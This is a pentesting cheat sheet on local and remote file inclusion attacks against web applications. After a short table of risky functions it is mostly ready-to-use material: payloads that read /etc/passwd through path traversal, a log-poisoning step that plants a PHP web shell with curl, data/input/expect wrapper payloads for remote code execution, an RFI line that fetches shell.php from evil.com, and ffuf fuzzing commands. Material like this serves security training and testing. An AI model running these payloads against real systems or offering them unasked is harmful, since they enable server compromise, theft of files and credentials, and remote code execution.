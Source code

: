 ```yaml
---
description: Notes about some basic File Insclusion Attack
---
```


# File Inclusion

### Dangerous Function Lead to File Inclusion

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |

### Local File Inclusion (LFI)

Local File Inclusion (LFI) is a type of vulnerability where an attacker can exploit a web application to include files that are already present on the server. By manipulating input parameters, such as URLs or form fields, the attacker can trick the application into loading files from the local file system, potentially accessing sensitive information or executing malicious code.

#### Basic LFI Payloads

| Command                                                   | Description             |
| --------------------------------------------------------- | ----------------------- |
| `/etc/passwd`                                             | Basic LFI               |
| `../../../../etc/passwd`                                  | LFI with path traversal |
| `/../../../etc/passwd`                                    | LFI with name prefix    |
| `./languages/../../../../etc/passwd`                      | LFI with approved path  |
| `php://filter/read=convert.base64-encode/resource=config` | LFI with Base64 Filter  |
| `../../../../etc/passwd%00`                               | LFI with Null byte      |

#### Log Poisoning to RCE

```bash
# Inject Access Log
curl -X "<?php echo passthru(\$_GET['cmd']);?>" http://localhost/wordpress/

# Access
index.php?page=/var/log/apache2/access.log&cmd=id
```

Access Log Location

Apache:

* /var/log/apache/access.log
* /var/log/apache2/access.log
* /etc/httpd/logs/access\_log&#x20;

Nginx:

* /var/log/nginx/access.log

#### LFI to RCE

{% code overflow="wrap" %}
```bash
# Data Wrappers
http://target.com/index.php?page=/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

# Input Wrappers
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?page=php://input&cmd=id"

# Expect Wrappers
curl -s "http://target.com/index.php?page=expect://id"
```
{% endcode %}

### Remote File Inclusion (RFI)

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the allow\_url\_include setting to be enabled.

{% code overflow="wrap" %}
```bash
http://target.com/index.php?page=/index.php?page=ftp://user:pass@localhost/shell.php&cmd=id

http://target.com/index.php?page=/index.php?language=http://evil.com/shell.php&cmd=id
```
{% endcode %}

### Automation

{% code overflow="wrap" %}
```bash
# Fuzzing Parameter
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://target.com/index.php?FUZZ=value' -fs 2309

# Check working payload with LFI wordlists
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://target.com/index.php?view=FUZZ' -fs 2309

# Read Apache2 Conf
curl http://target.com/index.php?view=../../../../../../../../../../../../../../../../../../etc/apache2/apache2.conf
```
{% endcode %}

### WordLists

* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
